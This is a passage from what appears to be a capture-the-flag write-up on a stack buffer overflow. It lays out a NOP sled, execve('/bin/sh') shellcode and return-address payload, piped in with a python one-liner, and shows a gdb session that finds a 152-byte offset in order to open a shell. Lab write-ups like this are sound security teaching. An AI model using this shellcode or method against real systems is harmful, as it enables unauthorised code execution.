 ~~~
┌─────────────────┬──────────────────┬──────────────────┐
│ NOP sled        │  shell code      │ Memory address   │
└─────────────────┴──────────────────┴──────────────────┘
~~~

You’ve probably noticed that shellcode, memory addresses and NOP sleds are usually in hex code. To make it easy to pass the payload to an input program, you can use python:

```bash
python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”
```

Using this format would be something like this for this challenge:

```bash
python -c "print('\x90' * 30 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' +
'\x41' * 60 + 
'\xef\xbe\xad\xde') | ./program_name
"
```

In some cases you may need to pass xargs before ./program_name.

## #1 - Use the above method to open a shell and read the contents of the secret.txt file.

**offset**

~~~
[user1@ip-10-10-93-165 overflow-3]$ gdb -q buffer-overflow
(gdb) run $(python -c "print('A'*158)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*158)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
(gdb) run $(python -c "print('A'*159)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*159)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400563 in copy_arg ()
(gdb) 
~~~

With a 158 bytes length payload, we are overwritting 6 bytes of the return address. As a result, the offset will be **152 bytes**.
